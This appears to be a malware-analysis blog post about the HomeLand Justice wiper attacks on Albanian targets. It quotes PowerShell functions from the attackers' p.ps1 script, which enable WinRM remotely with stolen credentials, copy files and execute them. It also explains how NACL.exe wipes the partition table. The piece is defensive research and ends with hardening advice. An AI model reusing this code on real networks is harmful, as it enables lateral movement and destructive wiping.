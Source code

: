 ```yaml
---
title:  "An analysis of the malware used in the recent cyber-attacks targeting Albania"
date:   2023-12-28
categories: Albania APT state actor hacking cyberattack HomeLandJustice
---
```


## Introduction

On December the 25th, on Christmas day, a hacking group known as HomeLand Justice revealed in their telegram account that they had successfully compromised a well-known telecommunication company and the Albanian Parlament. One of the images showed images of what appeared to be access to VSphere which is a virtualization system.

![[Pasted image 20231227230322.png]]
Image from HomeLand Justice showing access to vSphere

In another video, HomeLand Justice showed how they were performing a wiping attack which was initiated from an Exchange server which potentially could have been the entry point of the compromise.

![[Pasted image 20231227230828.png]]
Image from HomeLand Justice showing access to Exchange-SRV1 as user t0.admin


On one of the videos, the attackers were showing the execution of a Powershell script, which appeared to remotely deploy a file named NACL.exe which is believed to be the wiper malware. 

![[Pasted image 20231227224823.png]]
HomeLand Justice executing p.ps1 PowerShell Script

As no samples were made public, ClearSky, a Cyber Security company managed to identify the malware based on the filenames and file content.
![[Pasted image 20231227231812.png]]

https://twitter.com/clearskysec/status/1740003566431940983

Both samples that may have been featured in the video were also identified on VirusTotal. The files were retrieved from VirusTotal, and the entire analysis is grounded in the examination of these two files.

https://www.virustotal.com/gui/file/36cc72c55f572fe02836f25516d18fed1de768e7f29af7bdf469b52a3fe2531f
https://www.virustotal.com/gui/file/c8b72d6416df83ee44134c779f70125cf1713d8797b0128ef591a7fe15674ac8

## p.ps1 - Analysis

The PowerShell script shown in the video is named "p.ps1" and is pretty easy to reverse engineer as there is no obfuscation, it has comments and uses common documented functionality such as WMI and WinRM.

The script has several function but the most interesting ones are outlined below:

* TestConnection - this is a wrapper function against Test-Connection function on Powershell.
* TestWSManEnabled -  another wrapper function for the Test-WSMan function on Powershell
* TryToEnableWinRM
This function accepts three parameters: the remote computer, username, and password. It then creates a PSCredential object with the specified credentials, and uses the Invoke-WmiMethod function to execute a command on the remote computer.

```powershell
function TryToEnableWinRM

{

param($computerName, $Password, $UserName)

  

$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force

$Credentials = New-Object System.Management.Automation.PSCredential ($Username, $SecurePassword) -ErrorAction SilentlyContinue -ErrorVariable Crederror

$result = Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\services\WinRM' -Name 'Start' -Value 2; Start-Service WinRM; Enable-Psremoting -SkipNetworkProfileCheck -force" -ComputerName $computerName -ErrorAction SilentlyContinue -Credential $Credentials

if($result)

{

return $true

}

else

{

return $false

}

}
```

The Invoke-WMI function will connect to the remote computer and using the Win32_Process class will execute the following commands:

```
powershell.exe Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\services\WinRM' -Name 'Start' -Value 2; Start-Service WinRM; Enable-Psremoting -SkipNetworkProfileCheck -force
```

The first command will set a registry key to configure the WinRM service to start automatically when the system boots. It will then start the WinRM service on the system and by using the Enable-Psremoting command, enables Powershell remoting.

* CreateSession
This function is responsible for setting up the connections to the remote computers using Powershell Remoting.  If successful, it will return the session which is than later used to upload and execute executables.

```powershell
if ($Username -and $Password)

{

$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force

$Credentials = New-Object System.Management.Automation.PSCredential ($Username, $SecurePassword) -ErrorAction SilentlyContinue -ErrorVariable Crederror

if($Crederror.length -gt 0)

{

Add-Content -Path $env:Temp\$machine.txt -Value "[UnSuccess][$machine]:: [Error(CreateSession)] : $Crederror"

return $false

}

$Session = New-PSSession -ComputerName $Remotecomputer -Credential $Credentials -ErrorAction SilentlyContinue -ErrorVariable e

}

else

{

$Session = New-PSSession -ComputerName $Remotecomputer -ErrorAction SilentlyContinue -ErrorVariable e

}
```


* ActionOnOpenMachine
This function is one of the most important ones as is the one responsible for uploading the malicious files and executing them. 

To copy files, it uses the Copy-Item function

```powershell
Copy-Item -Path $SourcePath -Destination $DestPath -ToSession $Session -Force
```

After copying the item successfully, it will use the Invoke-Command function to execute the uploaded file.

```powershell
Invoke-Command -Session $Session -ScriptBlock { Start-Process $using:DestPath -ArgumentList $using:ExecutableArgs -NoNewWindow }
```

To conclude, the Powershell script will read a target list that is specified by the operator and perform the following actions:

* Will check if machine is online
* Will check if WinRM is enabled, if not, it will enable it
* Creates a PowerShell remoting session
* Copies the specified file on the remote machine and execute it if `run` is specified as an argument

## NACL.exe Analysis

The video showed HomeLand Justice group deploying a binary NACL.exe through the previously analyzed script. On the video, the file was named NACL.exe, but the original filename that it was compiled is Ptable.exe

![[Pasted image 20231227215444.png]]

What was interesting in this case is that the binary was signed with a valid Code-Signing certificate as can be seen from the following image:

![[Pasted image 20231227215407.png]]

It is highly likely that the attackers either stole the code-signing certificates or bought them using fake companies.

Loading the NACL.exe binary in a disassembler, the binary was pretty small and mainly contained standard libraries functions. 
All the malicious code was located on address 0x00401010

![[Pasted image 20231227210402.png]]

Firstly the code defines some variables and function pointers. It loads the kernel32.dll library using LoadLibraryW. After that, it uses GetProcAddress to find the addresses of several function and load them to the function pointers that were defined earlier. 
It will then use a function that calls `___stdio_common_vswprintf_p` and construct the following string `\\.\c:`. The malware will then call the CreateFileW function to open a handle to that path and store it on the v5 variable.
And finally it will check if the handle is invalid, if not, it will call DeviceIoControl with the previously opened handle and the flag 0x7c100. The flag 0x7c100 stands for  IOCTL_DISK_DELETE_DRIVE_LAYOUT which is used to delete the partition table and drive layout information on a disk.


## Conclusions and Recommendations

While these attacks can be highly destructive, they are entirely preventable. Ensuring that  externally exposed systems are updated in a timely manner and maintaining a robust security posture can significantly thwart attackers. It is crucial to disable any unused services, implement proper privilege separation, and leverage effective security solutions to proactively detect and prevent potential attacks.


### References

https://www.crowdstrike.com/blog/the-anatomy-of-wiper-malware-part-3/
https://www.virustotal.com/gui/file/36cc72c55f572fe02836f25516d18fed1de768e7f29af7bdf469b52a3fe2531f/details
https://x.com/clearskysec/status/1740003566431940983?s=48&t=NMUlnWhWEekWk7W7mjpYBg




